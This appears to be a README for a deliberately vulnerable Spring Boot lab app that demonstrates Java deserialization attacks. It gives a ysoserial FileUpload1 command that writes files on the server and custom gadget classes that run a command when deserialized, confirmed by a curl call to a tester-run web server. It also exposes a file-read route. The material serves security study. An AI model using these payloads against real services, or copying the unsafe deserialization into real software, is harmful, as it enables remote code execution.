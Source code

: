 * How to Run:
  - Run via `mvn spring-boot:run`

* Routes:
  - Read `blub.txt` file: Visit `/file-test?file=blub.txt`
  - Serialize:
    - Get a serialized `Book` object: Visit `/serialize?doUrlEncode=false`
    - Get a serialized `Book` object that is also URL encoded: Visit `/serialize?doUrlEncode=true`
  - Deserialize:
    - `GET`: Visit `GET /deserialize?b=<base64book_UrlEncoded>`
    - `POST`: Visit `POST /deserialize` and provide the `object-to-deserialize` in the body

* Exploiting a `Gadget Chain` (that still works as of August 2022!):
  - As a PoC, the `pom.xml` contains `commons-fileupload:1.3.1` and `commons-io:2.4`
  - Thus, we can use the `FileUpload1` gadget chain from `ysoserial`: `java -jar ysoserial.jar FileUpload1 'write;/tmp;HACKEEED' | base64`
  - We send this to our `Spring Boot` app, which will create a randomly named file (e.g. `/tmp/upload_1e2897d1_aac7_4210_8911_57cbb6ac37c0_00000000.tmp`) in `/tmp` with the content `HACKEEED`

* We also created our own `Gadget Chain`..
  * `General Description`:
    - We created some new classes, e.g. `BookRceSetter.java` and `BookRceSetter.java` that execute a command upon (e.g. upon deserialization, upon calling a setter, etc.)
    - We also create a separate mini app `Evil.java` where we serialize an instance of these classes, give it a command of our choosing, and then send the serialized base64-encoded string to `POST /deserialize`
  * `Command to Execute`:
    - You can adjust the command to execute in `Evil.java` (this can't be done via a command line argument for now - Booo, I know.)
  * `Setup`:
    - We first compile `Evil.java` via `javac Evil.java BookRceSetter.java BookRceSetter.java`
    - Now, we `cd` into the `/src/main/java` folder, and run `java com.example.my.tests.Evil`
      - This creates 2 `naughty_X.ser` files which contain a base64 encoded version of our serialized payloads
        - `naughty_BookRceReadObject.ser` -> Contains a payload that will execute a command upon deserialization
        - `naughty_BookRceSetter.ser` -> Contains a payload that will execute upon a setter being called
  * `Exploitation`:
    - `PoC` - `curl`:
      - We run a web server via `python3 -m http.server 82`
      - Now, we adjust the IP address of the `curl` command in `Evil.java` to wherever this web server is running
      - Last, we send a request to our API:
        POST /deserialize
        Content-Type: application/json

        rO0ABX...
      - If everything works, our web server gets a hit.
